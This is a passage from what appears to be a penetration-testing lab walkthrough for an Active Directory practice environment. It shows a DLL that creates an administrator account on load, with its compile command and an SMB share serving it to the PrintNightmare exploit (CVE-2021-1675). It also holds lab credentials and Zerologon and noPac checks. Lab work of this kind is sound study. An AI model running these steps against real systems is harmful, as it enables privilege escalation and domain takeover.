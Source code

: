 ```
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

// RUNDLL32 entry point
#ifdef __cplusplus
extern "C" {
#endif

__declspec(dllexport) void __stdcall CreateAdminUser(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine, int nCmdShow)
{
    CreateAdminUserInternal();
}

#ifdef __cplusplus
}
#endif

// Command-line entry point.
int main()
{
    return CreateAdminUserInternal();
}

```
Compile it
`x86_64-w64-mingw32-gcc -shared -o pnightmare2.dll nightmare.c -lnetapi32
`

#Prepare a smb share with the dll
```
smbserver.py -smb2support ATTACKERSHARE .

#exploit cve
python3 CVE-2021-1675.py essos.local/jorah.mormont:'H0nnor!'@meereen.essos.local '\\192.168.56.1\ATTACKERSHARE\nightmare.dll'
```

# vulnerability check
```
# zerologon
crackmapexec smb 192.168.56.12  -M zerologon
#nopac
crackmapexec smb 192.168.56.0/24  -M nopac -u 'samwell.tarly' -p 'Heartsbane'
```
# ADCS
## Installation of certify-ad
```
git clone https://github.com/f3rn0s/Certipy
cd Certipy
python -m venv venv
source venv/bin/activate
```